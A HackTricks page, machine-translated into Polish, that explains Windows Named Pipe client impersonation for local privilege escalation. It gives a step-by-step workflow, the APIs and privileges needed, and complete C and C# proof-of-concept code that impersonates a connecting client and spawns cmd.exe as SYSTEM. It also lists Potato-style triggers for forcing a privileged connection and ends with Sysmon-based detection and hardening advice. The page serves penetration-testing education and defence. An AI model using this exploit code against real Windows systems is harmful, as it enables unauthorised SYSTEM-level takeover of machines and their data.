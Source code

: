 # Named Pipe Client Impersonation

{{#include ../../banners/hacktricks-training.md}}

Named Pipe client impersonation to prymityw lokalnego eskalowania uprawnień, który pozwala wątkowi serwera named-pipe przyjąć kontekst zabezpieczeń klienta, który się z nim łączy. W praktyce atakujący, który może uruchamiać kod z uprawnieniami SeImpersonatePrivilege, może wymusić, aby uprzywilejowany klient (np. usługa SYSTEM) połączył się z pipe kontrolowaną przez atakującego, wywołać ImpersonateNamedPipeClient, zdublować powstały token do tokena głównego i uruchomić proces jako ten klient (często NT AUTHORITY\SYSTEM).

Ta strona koncentruje się na podstawowej technice. Dla end-to-end łańcuchów exploitów, które wymuszają, aby SYSTEM połączył się z twoją pipe, zobacz strony z rodziny Potato wymienione poniżej.

## TL;DR
- Utwórz named pipe: \\.\pipe\<random> i oczekuj na połączenie.
- Spowoduj, aby uprzywilejowany komponent połączył się z nim (spooler/DCOM/EFSRPC/etc.).
- Odczytaj przynajmniej jedną wiadomość z pipe, następnie wywołaj ImpersonateNamedPipeClient.
- Otwórz token impersonacji w bieżącym wątku, DuplicateTokenEx(TokenPrimary) i użyj CreateProcessWithTokenW/CreateProcessAsUser, aby uruchomić proces jako SYSTEM.

## Wymagania i kluczowe API
- Uprawnienia zazwyczaj potrzebne procesowi/wątkowi wywołującemu:
- SeImpersonatePrivilege — do skutecznego podszycia się pod klienta łączącego się oraz do użycia CreateProcessWithTokenW.
- Alternatywnie, po podszyciu się pod SYSTEM możesz użyć CreateProcessAsUser, co może wymagać SeAssignPrimaryTokenPrivilege i SeIncreaseQuotaPrivilege (te uprawnienia są spełnione, gdy podszywasz się pod SYSTEM).
- Podstawowe API używane:
- CreateNamedPipe / ConnectNamedPipe
- ReadFile/WriteFile (należy odczytać co najmniej jedną wiadomość przed podszyciem)
- ImpersonateNamedPipeClient i RevertToSelf
- OpenThreadToken, DuplicateTokenEx(TokenPrimary)
- CreateProcessWithTokenW lub CreateProcessAsUser
- Poziom podszycia: aby wykonywać użyteczne akcje lokalnie, klient musi zezwolić na SecurityImpersonation (domyślnie dla wielu lokalnych klientów RPC/named-pipe). Klienci mogą obniżyć to ustawienie, używając SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION przy otwieraniu pipe.

## Minimalny przepływ pracy Win32 (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
LPCSTR pipe = "\\\\.\\pipe\\evil";
HANDLE hPipe = CreateNamedPipeA(
pipe,
PIPE_ACCESS_DUPLEX,
PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
1, 0, 0, 0, NULL);

if (hPipe == INVALID_HANDLE_VALUE) return 1;

// Wait for privileged client to connect (see Triggers section)
if (!ConnectNamedPipe(hPipe, NULL)) return 2;

// Read at least one message before impersonation
char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

// Impersonate the last message sender
if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

// Extract and duplicate the impersonation token into a primary token
HANDLE impTok = NULL, priTok = NULL;
if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

// Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
0, NULL, NULL, &si, &pi)) {
// Fallback: CreateProcessAsUser after you already impersonated SYSTEM
CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

RevertToSelf(); // Restore original context
return 0;
}
```
Notes:
- Jeśli ImpersonateNamedPipeClient zwraca ERROR_CANNOT_IMPERSONATE (1368), upewnij się, że najpierw odczytujesz z pipe'a i że klient nie ograniczył impersonacji do Identification level.
- Preferuj DuplicateTokenEx z SecurityImpersonation i TokenPrimary, aby utworzyć token główny odpowiedni do tworzenia procesu.

## .NET quick example
W .NET, NamedPipeServerStream może dokonać impersonacji za pomocą RunAsClient. Po impersonacji zduplikuj token wątku i utwórz proces.
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
[DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
[DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
[DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
static void Main(){
using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
s.WaitForConnection();
// Ensure client sent something so the token is available
s.RunAsClient(() => {
IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
});
}
}
```
## Typowe wyzwalacze/przymuszenia, by uzyskać podłączenie SYSTEM do twojej pipe
Te techniki zmuszają uprzywilejowane usługi do połączenia się z twoją named pipe, abyś mógł je impersonate:
- Print Spooler RPC trigger (PrintSpoofer)
- DCOM activation/NTLM reflection variants (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

See detailed usage and compatibility here:

-
{{#ref}}
roguepotato-and-printspoofer.md
{{#endref}}
-
{{#ref}}
juicypotato.md
{{#endref}}

If you just need a full example of crafting the pipe and impersonating to spawn SYSTEM from a service trigger, see:

-
{{#ref}}
from-high-integrity-to-system-with-name-pipes.md
{{#endref}}

## Rozwiązywanie problemów i uwagi praktyczne
- Musisz odczytać co najmniej jedną wiadomość z pipe przed wywołaniem ImpersonateNamedPipeClient; w przeciwnym razie otrzymasz ERROR_CANNOT_IMPERSONATE (1368).
- Jeśli klient łączy się z SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION, serwer nie może w pełni impersonate; sprawdź poziom impersonacji tokena przez GetTokenInformation(TokenImpersonationLevel).
- CreateProcessWithTokenW wymaga SeImpersonatePrivilege u wywołującego. Jeśli to zakończy się ERROR_PRIVILEGE_NOT_HELD (1314), użyj CreateProcessAsUser po tym, jak już zaimpersonowałeś SYSTEM.
- Upewnij się, że security descriptor twojej pipe pozwala docelowemu serwisowi na połączenie, jeśli ją zaostrzyłeś; domyślnie pipe pod \\.\pipe są dostępne zgodnie z DACL serwera.

## Wykrywanie i zabezpieczanie
- Monitoruj tworzenie i połączenia named pipe. Sysmon Event IDs 17 (Pipe Created) i 18 (Pipe Connected) są przydatne do wyznaczenia bazy legalnych nazw pipe i wykrywania nietypowych, losowo wyglądających pipe poprzedzających zdarzenia manipulacji tokenami.
- Szukaj sekwencji: proces tworzy pipe, usługa SYSTEM się łączy, a następnie proces tworzący uruchamia proces potomny jako SYSTEM.
- Zmniejsz ekspozycję, usuwając SeImpersonatePrivilege z nieistotnych kont usług i unikając niepotrzebnych logowań usług z wysokimi uprawnieniami.
- Defensive development: przy łączeniu się z nieufnymi named pipes określ SECURITY_SQOS_PRESENT z SECURITY_IDENTIFICATION, aby zapobiec pełnej impersonacji klienta przez serwer, chyba że jest to konieczne.

## References
- Windows: ImpersonateNamedPipeClient documentation (wymagania i zachowanie dotyczące impersonacji). https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation (przewodnik i przykłady kodu). https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation

{{#include ../../banners/hacktricks-training.md}}
